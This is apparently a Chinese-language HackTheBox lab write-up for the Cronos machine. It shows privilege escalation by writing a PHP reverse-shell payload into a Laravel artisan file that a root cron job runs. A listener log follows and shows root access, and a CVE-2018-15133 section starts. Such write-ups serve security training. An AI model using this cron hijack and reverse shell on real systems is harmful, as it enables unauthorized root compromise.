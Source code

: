 
# 提权

传linpeas

有个定时任务
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1


```
看来laravel是以root身份运行的,这个定时任务一分钟执行一次


把下面两行代码写入/var/www/laravel/artisan
```
$sock=fsockopen('10.10.16.4', 443);
exec('/bin/sh -i <&3 >&3 2>&3');
```


一分钟后，收到root shell
```
┌──(root💀kali)-[~/htb/cronos]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.13] 49136
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cd /root
# cat root.txt
6928d5d350c57...
# 

```

## CVE-2018-15133


我们上面怀疑一个laravel存在一个rce，但是缺少一个.env文件

来到项目目录

```
$ ls -alh
ls -alh
total 2.0M
drwxr-xr-x 13 www-data www-data 4.0K May 10 14:51 .
drwxr-xr-x  5 root     root     4.0K May 10 14:51 ..
-rw-r--r--  1 www-data www-data  572 Apr  9  2017 .env
drwxr-xr-x  8 www-data www-data 4.0K May 10 14:51 .git
-rw-r--r--  1 www-data www-data  111 Apr  9  2017 .gitattributes
-rw-r--r--  1 www-data www-data  117 Apr  9  2017 .gitignore
-rw-r--r--  1 www-data www-data  727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data 4.0K May 10 14:51 app
-rwxr-xr-x  1 www-data www-data 1.7K Apr  9  2017 artisan
drwxr-xr-x  3 www-data www-data 4.0K May 10 14:51 bootstrap
-rw-r--r--  1 www-data www-data 1.3K Apr  9  2017 composer.json
-rw-r--r--  1 www-data www-data 119K Apr  9  2017 composer.lock
-rwxr-xr-x  1 www-data www-data 1.8M Apr  9  2017 composer.phar
drwxr-xr-x  2 www-data www-data 4.0K May 10 14:51 config
drwxr-xr-x  5 www-data www-data 4.0K May 10 14:51 database
```